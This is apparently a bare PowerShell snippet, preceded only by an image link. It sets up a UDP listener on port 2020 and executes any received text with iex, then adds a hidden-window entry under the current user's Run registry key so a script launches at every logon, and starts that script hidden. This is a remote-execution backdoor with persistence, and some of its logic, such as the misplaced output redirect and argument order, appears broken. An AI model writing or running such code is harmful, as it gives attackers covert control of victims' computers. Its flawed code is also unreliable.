 
$port=2020;$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port);$udpclient=new-Object System.Net.Sockets.UdpClient $port;$content=$udpclient.Receive([ref]$endpoint);[Text.Encoding]::ASCII.GetString($content) |iex;$udpclient.Dispose() > $env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1";$rutaScript = $env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1";$nombreEntrada = "MiScript";$valorEntrada = "powershell.exe -File -WindowStyle Hidden $rutaScript";New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada;Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru
